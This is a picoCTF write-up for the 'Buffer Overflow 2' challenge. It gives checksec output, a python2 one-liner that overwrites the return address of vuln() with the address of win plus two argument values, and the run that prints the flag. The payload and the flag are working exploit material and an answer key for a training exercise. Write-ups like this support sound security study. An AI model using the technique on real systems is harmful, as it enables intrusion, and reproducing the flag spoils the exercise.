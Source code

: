 # BUFFER OVERFLOW 2

- You can refer this file [link](/picoCTF/buffer_overflow_2/challenge_files/vuln.c) to understand how this payload works.

- This program is 32-bit and has no PIE, so I can take the address of `win` and overwrite it to the `ret` of `vuln()` with fake ret and argument.

```
λ ~/bof_2/ file vuln

vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c57f0cbd109ed51024baf11930a5364186c28df, for GNU/Linux 3.2.0, not stripped

λ ~/bof_2/ checksec vuln

[*] '~/bof_2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## EXPLOIT

```
 python2 -c 'print("a"*112 + "\x96\x92\x04\x08" + "aaaa" + "\x0d\xf0\xfe\xca" + "\x0d\xf0\x0d\xf0")' | nc saturn.picoctf.net 54640
```

```
λ /mnt/c/Users/Whatd/Desktop/CTF/pwn/CTF_practice/picoCTF/SOLVED/bof_2/ python2 -c 'print("a"*112 + "\x96\x92\x04\x08" + "aaaa" + "\x0d\xf0\xfe\xca" + "\x0d\xf0\x0d\xf0")' | nc saturn.picoctf.net 54640
Please enter your string:
���aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa��aaaa
picoCTF{argum3nt5_4_d4yZ_31432deb}
```
